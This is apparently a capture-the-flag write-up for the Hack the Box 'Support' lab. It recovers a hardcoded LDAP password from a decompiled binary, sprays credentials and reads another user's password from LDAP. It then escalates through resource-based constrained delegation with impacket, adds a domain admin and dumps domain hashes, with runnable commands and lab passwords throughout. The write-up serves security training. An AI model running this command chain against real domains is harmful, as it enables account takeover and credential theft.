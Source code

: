 ```yaml
---
layout: post
title: Hack the Box - Support
categories: "Writeups"
---
```


## NMAP
```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-14 14:27:05Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
# SMB
- We have read access into the "support-tools" share
- ![[anonymous_shares.png]](/images/HTB/Support/anonymous_shares.png)
- In the share there is a bunch of tools but only "UserInfo.exe.zip" seems interesting
- ![[rid_brute.png]](/images/HTB/Support/rid_brute.png)
- Since we have IPC$ access, we can rid brute force to get users
- Command to get list of users from output:
```bash
cat list.txt| awk {'print $6'} | cut -d '\' -f 2 > users.txt
```
# DNSpy
- Under LdapQuery in UserInfo.Services, we see an encoded password and key being xored
- ![[dnspy_enc_passwd.png]](/images/HTB/Support/dnspy_enc_passwd.png)
- Pass: ```0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E```
- Key: ```armando : 61 72 6d 61 6e 64 6f```

```csharp
namespace UserInfo.Services
{
	// Token: 0x02000006 RID: 6
	internal class Protected
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002118 File Offset: 0x00000318
		public static string getPassword()
		{
			byte[] array = Convert.FromBase64String(Protected.enc_password);
			byte[] array2 = array;
			for (int i = 0; i < array.Length; i++)
			{
				array2[i] = (array[i] ^ Protected.key[i % Protected.key.Length] ^ 223);
			}
			return Encoding.Default.GetString(array2);
		}

		// Token: 0x04000005 RID: 5
		private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

		// Token: 0x04000006 RID: 6
		private static byte[] key = Encoding.ASCII.GetBytes("armando");
	}
}
```
Steps for getting the password - I used [CyberChef](https://gchq.github.io/CyberChef/) 
- Base64 decode
- xor twice with keys ``
- PW: ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


# Password Spray
- Once we obtain the password, we can password spray with our user list
- ![[ldap_pass_spray.png]](/images/HTB/Support/ldap_pass_spray.png)


- We find that the ldap user is valid ```ldap : nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```

# Bloodhound
- Nothing interesting from bloodhound with the ldap user
- support user is part of Remote  Management Users
- ![[BH_RMU.png]](/images/HTB/Support/BH_RMU.png)
## NMAP P2
- Running nmap again (all ports) we find 5985 open, WinRM!
```bash
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-08-28 02:22:11Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49700/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53608/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking WinRM with CME
- No one from our list with the password above can remote in, we need support user
# Enumerating LDAP
```bash
ldapdomaindump ldap://10.10.11.174 -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "DC=support,DC=htb"
```
```bash
ldapsearch -x -H ldap://10.10.11.174 -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -D "CN=ldap,CN=Users,DC=support,DC=htb" -b "CN=support,CN=Users,DC=support,DC=htb" 
```

- There are a bunch of files in the ldapdomaindump we can look through for the search base
- By specifying the support user in the search base, we can see the password in the "info" section
```support : Ironside47pleasure40Watchful```
- ![[support_ldap_pw.png]](/images/HTB/Support/support_ldap_pw.png)
- Check with CME: ![[cme_winrm_support.png]](/images/HTB/Support/cme_winrm_support.png)
- We can remote in!
## Enumeration as support
# Bloodhound
- Looking through at our node, we can see we are a part of "Shared Support Accounts" which has "GenericAll" over the Domain Controller
- ![[BH_edges.png]](/images/HTB/Support/BH_edges.png)
- What does this mean? Full control of a computer object can be used to perform a resource based constrained delegation attack.

[Follwing hacktricks guide for creating the fake computer](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegationhttps://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
	
- I only used [powermad](https://github.com/Kevin-Robertson/Powermad) and [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
New-MachineAccount -MachineAccount TURCO$ -Password $(ConvertTo-SecureString 'turco123!' -AsPlainText -Force) -Verbose
```
```powershell
Set-ADComputer DC$ -PrincipalsAllowedToDelegateToAccount TURCO$ 
```
```powershell
Get-ADComputer DC$ -Properties PrincipalsAllowedToDelegateToAccount
```
- Once we have all that setup, we can verify with:
```powershell
 Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity'
```


![[new_fake_com.png]](/images/HTB/Support/new_fake_com.png)

- Next, we can use this [script](https://github.com/tothi/rbcd-attack) to allow us to delegate as Administrator by editing the "msDs-AllowedToActOnBehalfOfOtherIdentity" attribute
```bash
python rbcd-attack/rbcd.py support.htb\\support:Ironside47pleasure40Watchful -dc-ip 10.10.11.174 -t DC -f TURCO
```
- ![[attribute_edit_success.png]](/images/HTB/Support/attribute_edit_success.png)
- We can also verify everything worked using "impacket-rbcd"

```bash
impacket-rbcd support.htb/support:Ironside47pleasure40Watchful -delegate-to 'DC$' -action read -dc-ip 10.10.11.174
```
- ![[impacket-rbcd_proof.png]](/images/HTB/Support/impacket-rbcd_proof.png)

- Lastly, we create the ST using the "ldap/dc.support.htb" SPN 
```bash
impacket-getST support.htb/TURCO$:turco123! -spn 'ldap/dc.support.htb' -impersonate Administrator -dc-ip 10.10.11.174
```

- Now we can wmiexec into the Domain Controller as Admin!
- ![[PWNED.png]](/images/HTB/Support/PWNED.png)
```bash
KRB5CCNAME=Administrator.ccache impacket-wmiexec -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174
```

## Post Exploitation
# Secretsdump
- Create a new user
```windows
net user turc0 Turco123123!! /add /domain
```
- Add to domain admins group
```windows
net group "Domain Admins" turc0 /add /domain
```

- Dump!
```bash
impacket-secretsdump support.htb/turc0@dc.support.htb -dc-ip 10.10.11.174 -just-dc
```